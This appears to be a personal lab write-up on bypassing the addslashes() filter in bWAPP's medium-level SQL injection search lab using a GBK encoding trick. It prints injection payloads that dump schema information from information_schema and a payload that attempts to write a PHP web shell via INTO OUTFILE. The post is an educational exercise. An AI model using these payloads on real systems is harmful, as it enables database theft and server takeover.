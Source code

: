 ```yaml
---
title: bWAPP SQL Injection (GET /Search) Medium
author: cqawam
categories: [Web Security]
tags: [OWASP, Injection, Web security]
image: assets/img/posts/bwapp_sqli/sqli_bwapp0.png
---
```

The fun part about solving vulnerable labs, CTF challenges, or even bug bounties is the thrill of bypassing filters and dodging defense mechanisms. It's an eternal cat-and-mouse game, hackers chasing hackers (or sometimes, just chasing their own tails).

So, I spun up the classic **bWAPP** app with a quick `git clone` and `docker run`, and started throwing the little SQL injection knowledge I’ve got at it. The first lab? Easy peasy and honestly, there are a million writeups floating around for it.

But the real challenge, the one that nearly sent me on a wild goose chase was the **medium** level of the **bWAPP SQL Injection (GET /Search) lab**.

Naturally, I thought, “Let’s peek at the source code and see what kind of ‘defense’ we're dealing with.” And sure enough, inside `sqli_1.php`, I found this little gem that applies different filters based on the `security_level` cookie. Medium is handled by the `case "1"` branch:

```php
include("security.php");
include("security_level_check.php");
include("selections.php");
include("functions_external.php");
include("connect.php");

function sqli($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
            
        case "1" :
            $data = sqli_check_1($data);
            break;

        case "2" :
            $data = sqli_check_2($data);
            break;
            
        default :
            $data = no_check($data);
            break;
    }

    return $data;

}
```  

Cool. Now let’s see what’s actually going on inside `sqli_check_1($data)` which lives in `functions_external.php`.

```php
function sqli_check_1($data)
{
    return addslashes($data);
}
```

Wait... addslashes()? Yep, that’s it.

So I hit up the [PHP Manual](https://www.php.net/manual/en/function.addslashes.php), and sure enough:
> The addslashes() is sometimes incorrectly used to try to prevent SQL Injection. Instead, database-specific escaping functions and/or prepared statements should be used.

Translation? This “defense” is like putting up a cardboard wall and calling it a firewall. Easily bypassable.

I started digging around and found this legendary [blog post by Chris Shiflett](https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string) (from 2006, but still gold), explaining how `addslashes()` can be bypassed under the right conditions. A [Stack Overflow thread](https://stackoverflow.com/questions/5741187/sql-injection-that-gets-around-mysql-real-escape-string) also helped connect the dots.

Turns out, the key to the bypass is all about character encoding. Specifically, **setting the character set to GBK** can turn escaped characters into valid multi-byte sequences, sneaky stuff.

So I jumped into the app’s `connect.php` and added the following line:
```php
mysql_query("SET NAMES gbk");
```

With that in place, I wanted to confirm the character set was successfully changed to GBK. So, with the security level set to low, I ran the following payload to check:
```bash
' UNION SELECT null, @@character_set_client, @@character_set_connection, null, @@character_set_results, null FROM 
```  

![](assets/img/posts/bwapp_sqli/sqli_bwapp_1.png){: width = "855" .normal}

Now that the groundwork is laid, it’s time to get busy. Here’s the payload I used:
```bash
¿' OR 1=1-- 
```
Yep, that worked. This confirms that the `addslashes()` defense can be neatly bypassed with the right encoding trick. But let’s take it up a notch.

## Dumping Database Info
At this point, I was already feeling a little smug about bypassing the filter, but why stop there? Time to poke around and see what else I could dig up.

Using the GBK trick and the flawed `addslashes()` defense still in play, I fired off this payload to see what secrets the database was hiding:
```bash
¿' UNION SELECT null, null, table_name, column_name, null, null, null FROM information_schema.columns WHERE table_schema = database()-- 
```  
Boom. Now we have the table names, and their columns, straight from the information_schema. Basically, it’s like grabbing the blueprint to the entire database.

Once you know the structure, the rest is just a matter of choosing what data to steal (uh, responsibly test... of course). It’s wild how much you can extract with just one sneaky query.  
![](assets/img/posts/bwapp_sqli/sqli_bwapp_2.png){: width = "855" .normal}

I decided to push my luck and go for remote code execution by trying to drop a PHP web shell onto the server. I found this payload in the world wild web:
```bash
¿' UNION SELECT 1,'<?php echo shell_exec($_GET["cmd"]); ?>',3,4,5,6,7 INTO OUTFILE '/var/www/html/pwned.php'-- 
```
Yeah, you guessed it. This is what the backend query actually looked like after passing through `addslashes()`: 
```bash
\'<?php echo shell_exec($_GET[\"cmd\"]); ?>\'
```
And the INTO OUTFILE part? Same story:
```bash
\'/var/www/html/pwned.php\'
```
Injecting a `¿` will only make it look crappier  
As you can imagine, that backslash party ended in a nice fat error when trying to create the file.
**Maybe** `addslashes()` *did* do something after all (hahaha)...



